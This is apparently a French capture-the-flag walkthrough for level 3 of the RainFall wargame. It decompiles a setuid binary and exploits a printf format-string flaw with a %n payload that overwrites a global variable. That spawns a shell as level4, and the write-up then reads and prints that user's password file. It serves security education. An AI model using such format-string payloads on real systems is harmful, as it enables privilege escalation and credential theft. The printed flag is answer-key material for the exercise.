 # Level3

```
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

Nous avons un exécutable que nous allons décompiler :

```
void v(void)
{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)

{
  v();
  return;
}
```

Le code nous informe que l'entrée utilisateur est récupérée puis affichée avec printf.
On remarque qu'il n'y a pas de sélecteur (%..) défini avec printf.
Après recherches nous allons exploiter une faille connue sous le nom de "format string".

Nous pouvons afficher ou manipuler le contenu de la stack en injectant les sélecteurs de printf dans l'entrée standart.

```
level3@RainFall:~$ ./level3
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825
```
```
level3@RainFall:~$ ./level3
AAAA%x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

Nous constatons que nous pouvons prendre le contrôle de l'exécution dans la 4e stack frame.
Dans le code nous voyons une condition qui permet de lancer un shell si m == 0x40.

Nous allons récupérer l'adresse de m grace a gdb :
```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
(gdb) x/x 0x804988c
0x804988c <m>:	0x00000000
```
Maintenant que nous avons l'adresse "0x804988c" nous allons modifier le contenu de "m", grâce qu sélecteur "%n" de printf, qui permet d'écrire dans la mémoire le nombre correspondant aux caractères qui précède "%n".
ex :
```
int i;
printf("Hello%n", &i);
printf(" %d\n", i); // 5
```
Nous allons donc créer le script suivant :
```
python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
```
Qui va écrire 64 caractéres a l'adresse de "m".
Explications :
Nous spécifions tout d'abord l'adresse a l'emplacement que nous controllons
```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x %x %x %x")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %4$x")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
? 804988c // %4$x permet de spécifié le 4e élément.
```

En partans du dernier script, il suffit de mettre nos 60 espaces "%60x", et de donner l'adresse de m a %n pour écrire 64 dedans (0x40 en hexa)

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```